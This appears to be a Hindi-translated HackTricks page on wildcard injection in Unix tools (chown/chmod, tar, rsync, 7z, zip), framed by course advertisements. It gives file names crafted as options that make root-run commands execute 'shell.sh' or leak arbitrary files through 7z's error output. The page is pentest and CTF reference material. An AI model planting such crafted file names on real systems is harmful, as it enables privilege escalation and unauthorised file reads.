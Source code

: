 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## chown, chmod

आप **यह संकेत दे सकते हैं कि आप बाकी फाइलों के लिए कौन सा फ़ाइल मालिक और अनुमतियाँ कॉपी करना चाहते हैं**
```bash
touch "--reference=/my/own/path/filename"
```
आप इसे [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(संयुक्त हमला)_ का उपयोग करके शोषण कर सकते हैं।\
अधिक जानकारी के लिए [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930) पर जाएं।

## Tar

**मनमाने आदेश निष्पादित करें:**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
आप इसे [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar हमला)_ का उपयोग करके शोषण कर सकते हैं।\
अधिक जानकारी के लिए [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930) पर जाएं।

## Rsync

**मनमाने आदेश निष्पादित करें:**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
आप इसे [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _attack)_ का उपयोग करके शोषण कर सकते हैं।\
अधिक जानकारी के लिए [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930) पर जाएं।

## 7z

**7z** में `--` का उपयोग करने पर भी `*` से पहले (ध्यान दें कि `--` का अर्थ है कि इसके बाद का इनपुट पैरामीटर के रूप में नहीं लिया जा सकता, इसलिए इस मामले में केवल फ़ाइल पथ) आप एक मनमाना त्रुटि उत्पन्न कर सकते हैं जिससे एक फ़ाइल पढ़ी जा सके, इसलिए यदि निम्नलिखित में से कोई आदेश रूट द्वारा निष्पादित किया जा रहा है:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
और आप उस फ़ोल्डर में फ़ाइलें बना सकते हैं जहाँ यह निष्पादित किया जा रहा है, आप फ़ाइल `@root.txt` बना सकते हैं और फ़ाइल `root.txt` को उस फ़ाइल के लिए **symlink** बना सकते हैं जिसे आप पढ़ना चाहते हैं:
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
फिर, जब **7z** निष्पादित होता है, यह `root.txt` को उन फ़ाइलों की सूची के रूप में मानता है जिन्हें इसे संकुचित करना चाहिए (यही `@root.txt` के अस्तित्व का संकेत है) और जब 7z `root.txt` पढ़ता है, तो यह `/file/you/want/to/read` को पढ़ेगा और **चूंकि इस फ़ाइल की सामग्री फ़ाइलों की सूची नहीं है, यह एक त्रुटि फेंकेगा** जो सामग्री दिखा रहा है।

_हैकदबॉक्स से CTF के बॉक्स के लेखों में अधिक जानकारी।_

## ज़िप

**मनमाने आदेश निष्पादित करें:**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
